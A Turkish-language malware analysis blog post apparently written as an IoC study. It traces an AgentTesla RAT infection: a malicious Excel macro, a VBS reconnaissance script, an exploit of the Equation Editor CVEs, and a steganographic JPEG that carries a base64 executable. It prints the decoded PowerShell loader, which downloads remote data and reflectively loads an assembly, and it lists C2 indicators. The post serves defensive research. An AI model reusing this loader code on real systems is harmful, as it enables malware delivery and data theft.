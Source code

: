# AgentTesla Excel Zararlı Yazılımı IoC Çalışması
<p>
    Merhabalar,<br>
    Arkadaşlar bu yazımda sizlerle beraber AgentTesla adlı RAT yazılımını inceleyeceğiz.
</p>

## Disclaimer | Yasal Uyarı
<p>
  Bu blog yazısında sağlanan bilgiler yalnızca eğitim ve bilgilendirme amaçlıdır. <b>Bilgisayar korsanlığı, siber saldırılar veya bilgisayar sistemlerine, ağlara veya verilere herhangi bir şekilde yetkisiz erişim de dahil olmak üzere herhangi bir yasa dışı veya etik olmayan faaliyeti</b> teşvik etme veya reklam etme amacı taşımaz.
<br><br>
  Disclaimer: The information provided in this blog post is intended for educational and informational purposes only. It is not intended to encourage or promote any illegal or unethical activities, including hacking, cyberattacks, or any form of unauthorized access to computer systems, networks or data.
</p>

## Yayılış Biçimi
<p>
    Virüs genel olarak e-mail ortamında ve e-maillere ek olarak eklenmiş dosyalarda yayıldığını görmekteyiz. Ek dosyayı açtığınızda çalışmaktadır.
    <br><br>
    <img src="harmful_mail_example.png" />
    <br><br>
</p>

## Çalışma Mantığı
<p>
    Zararlı yazılımın çalışma mantığını ifşa etmek amacıyla çalışmalarda zararlı Excel dosyasının (Dosya Adı: Order_HR WJO-29-09_1.xlam.xlsx) içerisindeki "makro" olarak bilinen Visual Basic kodları yardımıyla "79.110.48.52" IP adresli bir makinaya dosya indirme isteği gönderdiğini gözlemliyoruz.
    <br>
    IP adresine direkt olarak HTTP portu üzerinden bağlandığımızda bizi IIS ekranı karşılamaktadır. Buradan server üzerinde Windows OS işletim sisteminin çalıştığını görmekteyiz.
    <br><br>
    <img src="c2_server.png" />
    <br><br>
    IP adresli makina ve makro kodları üzerinde yaptığım çalışmalarda IP adresinde "ngown.vbs" ve "ngohms.txt" adlı iki dosyaya rast geldim.
    <br>
    Öncelikle "ngown.vbs" adlı dosyayı incelediğimizde karşımıza bazı Windows komutları çıkmakta ve bu komutlarla hedef cihaz hakkında Ağ Cihazları bilgileri, WCN dosya bilgileri, Güvenlik Duvarı bilgileri ve Ağ Keşfi gibi pek çok bilgiyi edinmeye çalıştığı görülmüştür.
    <br><br>
    <img src="vbs_file.png" />
    <br><br>
    Bahsi geçen sunucu üzerinden CVE 2017-11882 ve/veya CVE-2018-0802 zafiyetini sömürmeyi sağlayan "ngohms.txt" kodu çağırılmaktadır. Zafiyetin kaynağı olan "EQNEDT32.EXE" adlı Office dosyası çalışmaya başlar ve zafiyet sömürülerek sonraki aşamaya geçilir. 
    <br><br>
    <img src="txt_file.png" />
    <br><br>
    Bu kod ile sistem içerisinde tamamen gizlenerek Anti-Virüs programlarından tamamen gizlenebilmektedir. "ngohms.txt" adlı veri dosyasını dosyasını tamamen dekripte ettiğimizde ise ortaya çıkan kod ise şöyledir,
    <br><br>
    <code>
    $imageurl = "https://uploaddeimagens.com.br/*****/004/616/609/original/*****.jpg"
    $webclient = new-object system.net.webclient
    $imagebytes = $webclient.downloaddata("https://uploaddeimagens.com.br/*****/004/616/609/original/*****.jpg")
    $imagetext = ([system.text.encoding]::ascii).getstring($imagebytes)
    $startflag = "<>"
    $endflag = "<>"
    $startindex = $imagetext.indexof("<>")
    $endindex = $imagetext.indexof("<>")
    $startindex -ge 0 -and $endindex -gt $startindex
    $startindex = $startflag.length
    $base64length = $endindex - $startindex
    $base64command = $imagetext.substring($startindex, $base64length)
    $commandbytes = [system.convert]::frombase64string($base64command)
    $loadedassembly = [system.reflection.assembly]::load($commandbytes)
    $type = $loadedassembly.gettype("Fiber.Home")
    $method = ($type.getmethod("VAI")).invoke($null, [object[]]"txt.smhogn/25.84.011.97//:ptth", "dfdfd", "dfdf", "dfdf", "dadsa", "de", "cu")
    </code>
    <br><br>
    IoC testimiz devam ederken bu kod parçası yardımıyla "uploaddeimagens.com.br" web sitesinden JPEG dosyası formatında görünen bir virüs olduğunu görüyoruz. Burada resmi incelemeye başlıyoruz
    <br><br>
    <img src="harmful_img.png" />
    <br><br>
    Masumane bir resim gibi görünüyor fakat içerisindeki string verileri maalesef öyle değil. Resmin içeriğini incelediğimizde asıl gerçeği görmekteyiz. Resim içeriğinin başında bildiğimiz resim verileri varken sonunda bir BASE64 şifreleme algoritması ile şifrelenmiş veri görmekteyiz.
    <br><br>
    <img src="harmful_img_b64.png" />
    <br><br>
    Base64 kodunu da dekripte ettiğimizde ise karşımıza çıkan bir EXE dosyasının BASE64 şeklinde dosya içeriğine gizlendiğini görmekteyiz.
    <br><br>
    <img src="b64_decrypt.png" />
    <br><br>
    Bu kodun EXE içeriğini de incelediğimizde "RegAsm.exe" adlı yazılıma ait olduğunu buluyoruz. Fakat bu yazılımın çalıştıktan sonra bir HID (Donanım) olarak algılanmak için bir sürücü indirdiğini fark ediyoruz. Bu sayede kendisini bilgisayara bağlı bir donanım olarak göstererek çalışmaya devam edecek.
    <br><br>
    <pre>http://********.com/******/dstrootcax3.p7c</pre>
    <br><br>
    Bu aşamada virüsün çalışma aşamaları bitti. Bu aşamadan itibaren zararlı yazılımın sahibine haber verip vermediğini araştırmaya başladım.
    <br>
    RegAsm.exe üzerinde yaptığım ek çalışmalarda da istediğime ulaşarak mail sunucusu üzerinden sahibine haber verdiğini fark ettim.
    <br>
    <pre>
    Host : mail.********.***
    Username : niggabown20thsept@worlorderbillions.top
    </pre>
</p>

## Önlemler
<ul>
    <li>Virüs koruma yazılımlarını güncel tutmak</li>
    <li>SPAMHaus tarafından tutulan zararlı mail listelerini güncellemek</li>
    <li>Bahsi geçen "79.110.48.52" IP adresini güvenlik duvarı yazılımlarından engellemek</li>
    <li>VBS dosyalarının açılmasını Domain Controller üzerinden engellemek</li>
    <li>Excel makrolarını kapalı tutmak</li>
    <li>Kurumsal düzeyde bilinmeyen mail adreslerinden gelen dosyaların AÇILMAMASI gerektiğini personellere anlatmak</li>
</ul>